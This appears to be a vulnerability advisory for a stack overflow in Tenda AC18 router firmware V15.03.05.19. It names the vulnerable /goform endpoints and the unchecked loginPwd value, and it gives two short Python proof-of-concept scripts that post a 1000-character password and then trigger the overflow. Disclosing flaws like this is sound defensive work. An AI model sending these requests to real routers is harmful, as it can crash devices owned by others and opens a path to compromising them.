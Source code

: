 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/fast_setting_wifi_set` url. The `v17` variable receives the `loginPwd` parameter from a POST request and is stored in the configuration item named `sys.userpass` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926134827340.png)

`sys.userpass` configuration item can  be retrieved through the GetValue function in the `/goform/SysToolChangePwd` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926140216339.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_wifi_set"
payload = "a"*1000

data = {"ssid": "Tenda_66AE80","wrlPassword": "cardtable","loginPwd":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SysToolChangePwd"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
